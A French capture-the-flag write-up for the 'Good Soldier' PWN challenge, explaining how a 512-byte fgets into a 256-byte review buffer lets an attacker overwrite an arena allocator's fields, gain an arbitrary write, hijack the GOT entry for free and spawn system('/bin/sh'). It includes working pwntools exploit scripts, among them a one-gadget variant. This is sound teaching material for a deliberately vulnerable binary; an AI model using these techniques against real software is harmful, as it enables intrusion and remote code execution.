






# Writeup - Good Soldier

**Category**: PWN  \
**Author**: [Nosiume](https://github.com/Nosiume) \
**Difficulty**: Facile \
**Challenge Description**: \


Cette semaine, j'ai appris le concept d'arena allocator pour optimiser les calls à malloc ! \
J'ai codé un petit jeu en utilisant ce concept, à vous de l'essayer et pensez bien à laisser une review très complète !

**Artifact Files**: \
[dist.zip](../files/dist.zip)

## Concept du challenge

Ce challenge nous mentionne des éléments intéressants dans sa description. En effet, il mentionne le terme "arena allocator" on peut donc imaginer que la gestion de la mémoire va être plus ou moins au centre de se challenge.

Mais qu'est-ce donc qu'un arena allocator :O ? ([page wikipedia à ce sujet](https://fr.wikipedia.org/wiki/Gestion_de_m%C3%A9moire_par_r%C3%A9gions)).

L'idée est donc simple, on alloue un grand bloc de mémoire pour une opération spécifique et on divise nos blocs nous même de manière à faire le moins de call possible à des fonctions coûteuses comme `malloc` ou `free`.

## Overview du challenge

Quand nous nous connectons à la remote, nous arrivons sur ce qui semble être un petit jeu assez simple où nous pouvons nous battre contre des monstres divers et gagner ou perdre le duel en fonction de notre chance :




L'option 1, "ATTACK", nous permet de tenter notre chance et faire 25 de dégâts à l'ennemi. Quant à l'option 2, elle permet de fuire la bataille lâchement... Et donc de perdre le combat.

Peu importe l'issue (victoire, abandon ou défaite), le jeu nous propose de laisser une review avant de demander une signature de l'auteur de la review. Une fois la review envoyée on nous propose de relancer le jeu.



## Recherche du bug

Pour le focus de ce writeup, je me concentre sur l'aspect recherche et exploitation du bug que sur le reverse du binaire (étant donné que les sources ne sont pas données pour ce challenge).

Vous trouverez dans ce binaire une implémentation basique d'un arena allocator custom : 

**Fichier header mem_arena.h**
```c
#ifndef MEM_ARENA_H
#define MEM_ARENA_H

#include <stddef.h>
#include <stdlib.h>

// Let's define some practical size headers !
#define Kb(n) (n << 10)
#define Mb(n) (n << 20)
#define Gb(n) (n << 30)

enum mem_arena_errcode {
    SUCCESS,
    BAD_SIZE,
    NO_MEMORY_LEFT,
    FAILED_ALLOCATION
};

typedef struct {
    void* base;
    size_t cursor;
    size_t capacity;
} mem_arena;


int arena_init(mem_arena* arena, size_t capacity);
void* arena_alloc(mem_arena* arena, size_t sz);
int arena_destroy(mem_arena*);

#endif
```

**Implémentation mem_arena.c**
```c
#include "mem_arena.h"

#include <assert.h>
#include <errno.h>
#include <stdio.h>
#include <string.h>

/*
 * Initializes an arena allocator of size "capacity"
 * See definition of mem_arena struct in mem_alloc.h
 */
int 
arena_init(mem_arena* arena, size_t capacity) {
    assert( arena != NULL );
    assert( capacity != 0 );
    
    // Allocate arena memory
    arena->base = malloc(capacity);
    if ( !arena->base ) {
        printf("[MEM_ARENA] Error : %s\n", strerror(errno));
        return FAILED_ALLOCATION;
    }

    arena->cursor = 0;
    arena->capacity = capacity;
    return SUCCESS;
}

/*
 * Allocates a chunk of size "sz" from the given arena
 */
void*
arena_alloc(mem_arena* arena, size_t sz) {
    assert( arena != NULL );
    assert( sz > 0 );

    size_t left = arena->capacity - arena->cursor;
    assert( left >= sz );

    void* alloc = arena->base + arena->cursor;
    arena->cursor += sz;
    return alloc;
}

/*
 * Destroys an arena by freeing it's allocated memory block
 * Leaves struct data untouched
 */
int
arena_destroy(mem_arena* arena) {
    assert( arena != NULL );
    free(arena->base);
    return SUCCESS;
}
```

On a donc une structure "mem_arena" qui a 3 attributs, **un pointeur vers son allocation d'origine** renvoyée par malloc, **un curseur** qui nous donne le décalage en octets vers la prochaine zone non-utilisé de l'arène et **une capacité** limite de mémoire à ne pas dépasser.

Pour ce  qui est du code du jeu, une boucle se charge de démarrer le jeu après la présentation succinte du lancement du programme. Chaque itération appelle la fonction `game_instance`, qui gère le déroulement de la partie.

Fichier **game.h** qui définit toutes les structures utilisées par le jeu :
```c
#ifndef GAME_H
#define GAME_H

#include "mem_arena.h"

#define PLAYER_FULL_HEALTH 100

typedef struct {
    int health;
    char name[32];
} player_t;

typedef int (*enemy_attack_func)();

typedef struct {
    char* design;
    int health;
    enemy_attack_func attacks[5];
} enemy_t;

typedef struct {
    char review[256];
    mem_arena arena;
    player_t* player;
    enemy_t* enemy;
} game_ctx;

// Attack functions

int enemy_finisher();
int quarter_attack();
int failed_attack();
int heals_attack ();
int whatthehell_attack();

// Generic attack trigger

int enemy_random_attack(enemy_t*);

// Game loop
static void init_game_ctx(game_ctx*);
static void game_instance();
void game_start();

#endif
```

A chaque démarrage de partie, un nouveau contexte de jeu `game_ctx` est initialisé. Celui-ci contient le contenu de la review du joueur ainsi que l'arène de runtime du jeu qui gèrera toute la mémoire pendant l'exécution de celui-ci et bien évidemment les données du joueur et de l'ennemi.

Naturellement, toutes les structures joueurs et ennemies sont allouées dans l'arène du contexte de jeu. Cependant, un comportement saute aux yeux en analysant l'épilogue de la fonction `game_instance`. Spécifiquement lors de l'écriture de la review.

```c
// whoopsie :))))
fgets(ctx.review, 512, stdin);

char* signature = arena_alloc(&ctx.arena, 32);
printf("Signature : ");
fgets(signature, 32, stdin);

// Free memory
arena_destroy(&ctx.arena);
```

En effet, on voit que la structure définit `review` comme étant un buffer de taille 256 octets. Hors, ce call à fgets lit un absurde 512 octets dans ce buffer, ce qui permet un overflow conséquent à l'intérieur de la structure `game_ctx`.

## Exploitation du bug

Les plus attentifs ont peut-être remarqué que la structure ̀`game_ctx` dans `game_instance` se trouve sur la **stack**. On pourrait donc en théorie utilisé cet overflow pour réécrire l'adresse de retour de la fonction `game_instance` ?

Et bien non. Ce programme vient avec la protection **stack cookie / canary**. Il n'est donc pas possible d'utiliser cette primitive pour prendre le contrôle du pointeur d'instruction (on pourrait avec un leak mais nous n'avons pas cette chance ici).

Donc que pouvons-nous viser avec cet overflow ??

Chaque élément de la structure `game_ctx` est écrasé par l'overflow. Cela comprend, bien entendu, la structure `mem_arena` qui est utilisée pour faire l'allocation du buffer de signature juste après notre overflow !!

Une solution serait donc de modifier les paramètres de cette `mem_arena` afin de nous renvoyer un pointeur qui n'appartient pas du tout à la heap mais bien à une autre zone de mémoire intéressante. Ce qui nous donne une primitive **Arbitrary Write** sur une adresse de mémoire connue.

Layout d'exploit : 
```
OFFSET      OBJECT               VALEURE
0 bytes     buffer review        FILLER ("AAAAA...")
256 bytes   mem_arena.base       Pointeur arbitraire
264 bytes   mem_arena.cursor     0 (décalage à partir du pointeur précédent)
272 bytes   mem_arena.capacity   32 (aumoins 32 pour pouvoir allouer le buffer de signature sans crash)
```

A partir de cette primitive nous pouvons donc modifier des adresses de mémoire connues. Il nous faut donc une cible dont nous connaissons l'adresse. Heureusement, **PIE** (Position Independent Executable) est désactivé sur ce binaire. Ce qui veut dire que les variables et fonctions spécifiques à ce binaire ont des adresses fixes qui restent les mêmes à chaque exécution du programme.

Reste encore deux autres problèmes à gérer : 
- Même avec le contrôle de **RIP**, nous manquons d'information pour ouvrir un shell. (Le canary nous empêche de ROP, Pas de gadgets ni de leak libc)
- A la fin de la fonction `game_instance`, `free` est appelé sur l'allocation de l'arène. Si le pointeur `mem_arena.base` pointe vers un chunk ptmalloc2 invalide, celui-ci va sans doute déclencher un crash.

## Leak donné par le programme

Ce challenge reste en difficulté facile après tout et une des attaques aléatoires des ennemis nous affiche directement un leak de mémoire libc ! Plus précisement la fonction `puts`.

C'est donc la voie facile pour régler notre premier problème !

## Leak par manipulation de structure mem_arena

Une autre possibilité très intéressante, malgré le fait qu'elle augmente la difficulté du challenge, est d'utilisé un GOT overwrite combiné avec une manipulation de la structure `mem_arena` pour obtenir un leak libc.

Layout d'exploit : 
```
OFFSET      OBJECT               VALEURE
0 bytes     buffer review        FILLER ("AAAAA...")
256 bytes   mem_arena.base       __libc_start_main@GOT
264 bytes   mem_arena.cursor     free@GOT - __libc_start_main@GOT
272 bytes   mem_arena.capacity   1000
```

Avec ce payload, l'allocation de la signature renverra `mem_arena.base + mem_arena.cursor` ce qui équivaut à l'adresse de **free** dans la **Global Offset Table**.

Ainsi, les données écrites dans le buffer `signature` écraserons l'entrée **GOT** de la fonction **free**. 
En remplaçant la fonction **free** par l'adresse de **puts** dans la **Procedure Linkage Table** (PLT), lors de la destruction de l'arène on aura bien un appel à `free(mem_arena.base)` soit `puts(__libc_start_main@GOT)`.

Cette approche permet d'obtenir un leak sans aide à partir de la primitive principale et évite aussi le crash sur l'appel à `free` puisque celui-ci va être rediriger vers `puts`.

Une démo de script utilisant cette technique est disponible [ici](./exp_noleak.py). Cependant, il a été jugé un peu trop dur pour un challenge de difficulté Facile/Moyen !

## Ouverture d'un shell à partir d'un GOT overwrite

Une fois le leak libc obtenu, on peut atteindre notre dernière cible : la **Global Offset Table**. 
En effet la **Global Offset Table** (GOT) est utilisée par la **Procedure Linkage Table** pour la résolution de symbole externes au programme (généralement dans les libc / fichiers shared object .so). La GOT contient donc les adresses appartenant à des fonctions de la libc utilisées par le programme.

Lorsque le programme veut appeler **free** par exemple, il appelle l'entrée **PLT** correspondante qui va aller utiliser l'entrée **GOT** contenant l'adresse réelle de free pour effectuer son saut. 

Le processus de résolution des symboles est plus complexe que ça en réalité mais je résume le concept ici rapidement. Pour plus d'information je recommende [cet article](https://ir0nstone.gitbook.io/notes/binexp/stack/aslr/plt_and_got).

En bref, ce qui est intéressant c'est que si on peut réécrire une entrée dans la **GOT** correspondant à une fonction, tous les appels suivant à cette fonction vont être redirigés vers la valeure que nous avons entré. Ce qui est donc une cible parfaite pour notre exploit !

### Poc avec un jump sur 0xdeadbeef

Commençons d'abord par faire une proof of concept de notre contrôle du pointeur d'instruction.

```py
#!/usr/bin/env python3

from pwn import *

context.binary = elf = ELF('../src/build/good_soldier')
context.log_level = 'error'
context.terminal = ['tmux', 'splitw', '-h']


if args.REMOTE:
    libc = ELF('../infra/libc.so.6')
    HOST = "127.0.0.1"
    PORT = 1337
    io = remote(HOST, PORT)
else:
    libc = elf.libc
    gs = """
    b *game_instance+406
    continue
    """
    io = process(cwd="../src")
    gdb.attach(io)

context.log_level = 'debug'

io.sendlineafter(b'> ', b'foobar')
io.recvuntil(b'do ?')
io.sendlineafter(b'> ', b'2')

offset_arena = 256
free_got = elf.got["free"]

cursor = 0
capacity = 32
fake_arena = p64(free_got) + p64(cursor) + p64(capacity)

payload = b'A' * offset_arena + fake_arena

io.sendlineafter(b'> ', payload)
io.sendlineafter(b': ', p64(0xdeadbeef))

io.interactive()
```

En lançant ce script dans gdb, on obtient bien le crash suivant : 



Super ! On arrive à contrôler notre call à free. Avec notre leak libc on peut facilement jump sur la fonction `system` qui nous permetterait d'exécuter des commande sur l'hôte distant.

Cependant, comment faire pour passer "/bin/sh" et ouvrir un shell ? Le paramètre passé à la fonction free est `mem_arena.base`. Il faut donc qu'on préserve la condition que `mem_arena.base` pointe bien vers une chaîne "/bin/sh" (il y en a une dans la libc utilisable) et que l'opération `mem_arena.base + mem_arena.cursor = free@GOT` reste vraie.

On peut valider ces conditions en modifiant notre exploit de la manière suivante : 
```py
offset_arena = 256
binsh = next(libc.search(b"/bin/sh"))
system = libc.sym["system"]
free_got = elf.got["free"]

# We want arena_alloc to return free_got
# signature = base + cursor = free_got
# And we want free(base) to be system("/bin/sh")
# So base = binsh, and cursor = free_got - binsh
cursor = (free_got - binsh) & 0xffffffffffffffff
capacity = (cursor + 100) & 0xffffffffffffffff
fake_arena = p64(binsh) + p64(cursor) + p64(capacity)

payload = b'A' * offset_arena + fake_arena

io.sendlineafter(b'> ', payload)
io.sendlineafter(b': ', p64(system))
io.interactive()
```

On peut voir que le call à free à bien été transformé en `system("/bin/sh")` : 



## Méthode alternative : One gadget

Une autre méthode possible mais beaucoup plus instable est l'utilisation d'un one gadget.
Un one gadget est une adresse dans la libc qui, si certaines conditions sont remplies, ouvre un shell en un seul saut (pas de ROP nécessaire).

[Un tool](https://github.com/david942j/one_gadget) existe pour trouver ces "one gadgets" dans la libc qui nous est donnée.



Ce one gadget est utilisable puisque r8 pointe vers `review[9]` on peut donc valider la condition en mettant un pointeur NULL à cette position de notre payload. On obtient quelque chose comme ceci : 

```py
offset_arena = 256
fake_arena = p64(elf.got["free"]) + p64(0) + p64(0x20) 
payload = b'A'*9 + p64(0) + b'A'*(offset_arena-17) + fake_arena

one_gadget = libc.address + 0xe1225

io.sendlineafter(b'> ', payload)
io.sendlineafter(b': ', p64(one_gadget))
io.interactive()
```

Qui marche aussi contre notre remote ! La solve alternative qui n'utilise pas le leak donné par le programme implémente cette solution avec un one gadget. Vous pouvez trouver son code [ici](./exp_noleak.py).
